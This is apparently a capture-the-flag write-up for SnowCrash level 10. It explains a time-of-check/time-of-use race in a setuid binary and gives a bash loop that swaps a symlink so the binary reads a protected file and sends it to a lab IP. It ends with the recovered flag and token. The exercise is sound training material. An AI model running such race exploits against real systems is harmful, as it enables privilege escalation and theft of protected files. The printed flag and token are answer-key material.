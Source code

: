 # SnowCrash Level 10

## Introduction
This one was quite difficult (actually the hardest one), we get again a `level10` and a `Token` files. We check the `level10` with Ghidra to understand how it works. After long moments of discussion, we discovered that the `access()` function has some security vulnerabilities as mentioned in the manual:

Warning: Using `access()` to check if a user is authorized to, for example, open a file before actually doing so using `open(2)` creates a security hole because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

We found Time-Of-Check Time-Of-Use attacks (TOCTOU):

- The user executes the program.
- The program is setuid, immediately getting all privileges of root.
- The program checks file1 to ensure that the user has access.
- file1 is a hardlink to file2, which the user has access to.
- The user changes file1 to hardlink to file3 (`/etc/shadow` or something like that).
- The program reads file1 and does something to it (print, convert, whatever).
- The user now has access to a file they shouldn't.

## Exploitation Script
We made a script:
```
#!/bin/bash
# exploit.sh
TEMPFILE="/var/tmp/exploit"
OLD_LS=`ls -l $1`
NEW_LS=`ls -l $1`

while [ "$OLD_LS" == "$NEW_LS" ]
do
    rm -f $TEMPFILE
    echo "From user: " > $TEMPFILE
    echo "TOCTOU success" | /home/user/level10/level10 $TEMPFILE 192.168.56.103 & unlink $TEMPFILE
    ln -s $1 $TEMPFILE & NEW_LS=`ls -l $1`
done
```
After a little bit of wait (it has a loop trying again and again to access the file, until the hardlink is made perfectly between the time of check and time of access), we have been able to break the code and find the flag: `woupa2yuojeeaaed06riuj63c`.

## Obtaining the Token
After executing the exploit successfully, we retrieved the token:
```
flag10@SnowCrash:~$ getflag 
Check flag. Here is your token: feulo4b72j7edeahuete3no7c
```
